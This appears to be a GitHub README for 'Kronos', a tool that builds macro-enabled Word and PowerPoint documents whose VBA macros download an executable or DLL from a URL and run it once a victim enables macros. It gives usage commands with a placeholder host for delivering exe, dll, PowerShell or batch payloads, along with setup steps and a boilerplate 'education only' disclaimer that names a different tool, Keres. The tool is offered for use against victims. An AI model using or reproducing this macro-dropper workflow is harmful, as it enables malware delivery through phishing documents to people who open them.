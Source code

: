 ![!\[Alt text\](<>)](<2023-12-24 10_34_53-Photos.png>)


Greetings
--------------------------

Kronos is a doc and ppt exploitation tool to deliver Payloads via Vba macros by downloding the PE from a URL 

it generates a docm or pptm , if macros disabled by default ,victim needs to enable macros

for an exe use :

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE 'name.exe'

for a dll  use : 

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE " {rundll32 or regsvr32} {name.dll} ,{function if needed} "

you can also run a ps1 or bat file or any shell cmd

https://github.com/ELMERIKH/Kronos/assets/96123439/e1efc4e7-5b63-4fdc-8076-400eae8b6f85




setup:
------------

git clone https://github.com/ELMERIKH/Kronos

pip install -r requirements.txt

python3 Kronos.py

DISCLAIMER :
----------------------------------

ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Keres. By using Keres or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Keres is for EDUCATION and/or RESEARCH purposes ONLY.


